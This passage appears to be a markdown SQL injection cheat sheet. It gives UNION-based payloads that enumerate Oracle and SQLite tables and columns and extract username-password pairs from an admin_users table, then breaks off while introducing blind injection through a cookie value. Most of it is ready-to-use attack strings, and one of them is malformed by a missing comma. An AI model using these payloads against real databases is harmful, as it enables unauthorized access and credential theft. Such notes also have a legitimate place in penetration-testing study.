 enumerate table name: 

```sql
SELECT table_name,.. FROM all_tables --
```
enumerate column name for a specific table:

```sql
SELECT column_name,... FROM all_tab_columns WHERE table_name = 'admin_users' --
```

retrieve information:


```sql
SELECT null , username || '-' || password  FROM admin_users --
```

### retrieve content from sqlite db:

(in our example the orignal table where the injection happen got 3 columns) 
enumerate the version

```sql
union select sqlite_version(),null,null  --
```
enumerate table name:

```sql
union select group_concat(tbl_name),null,null from sqlite_master where type='table'  --
```
enumerate column name:

```sql
union select  group_concat(sql)null,null from sqlite_master where tbl_name='YOURTABLE_NAME'
```

## Blind sqli 


sqli with union may sometimes not work 


### exploiting blind sqli by triggering condition response



sqli in in the HTTP header: 

cookie: some_cookie=AZERTY

```sql
select some_cookie from cookie_tab where some_cookie='AZERTY' 
```
The query is vulnerable to sqli but there  wouldn't be any output in the client side if the query crash.

But the behaviour of the application may change : 

ex: 

good cookie => "Welcome"
